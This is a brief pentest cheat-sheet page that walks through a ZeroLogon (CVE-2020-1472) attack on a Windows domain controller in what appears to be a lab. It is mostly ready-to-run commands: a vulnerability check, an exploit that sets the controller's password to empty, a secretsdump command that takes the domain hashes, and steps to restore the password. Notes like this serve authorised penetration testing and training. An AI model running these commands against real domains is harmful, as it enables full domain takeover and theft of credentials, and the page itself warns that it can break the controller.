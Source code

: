 # Abusing ZeroLogon

- Attacking DC and setting pass to null and taking over DC **CAREFUL COULD DESTROY DC**
- Check priorly if the target is vulnerable 
  *Note: Useful for a pentest to mention to the customer that they are vulnerable without actually doing the exploitation*
  ```
  ┌──(root💀kali)-[/home/kali/CVE-2020-1472]
  └─# python3 zerologon_tester.py HYDRA-DC 10.0.2.5
  Performing authentication attempts...
  ===================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================================
  Success! DC can be fully compromised by a Zerologon attack.
  ```
- Changing the password to empty string: `python3 exploit.py HYDRA-DC 10.0.2.5`
- Check if it worked: `secretsdump.py -just-dc DOMAIN/DOMAIN-CONTROLLER\$@IP-OF-DC`
  Example: `secretsdump.py -just-dc MARVEL/HYDRA-DC\$@10.0.2.5`
- If we were able to dump hashes without typing password it means we owned the DC.
- Restore the machine
  - Use the admin hash to get the plain_password_hex `secretsdump.py administrator@10.0.2.5 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0`
  - Restore the password `python3 restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target-ip 10.0.2.5 -hexpass <Put here the hexpass you just got>`  
    The console should print `Change password OK`

## Zerologon - Resources

- [What is ZeroLogon?](https://www.trendmicro.com/en_us/what-is/zerologon.html)
- [dirkjanm CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)
- [SecuraBV ZeroLogon Checker](https://github.com/SecuraBV/CVE-2020-1472)
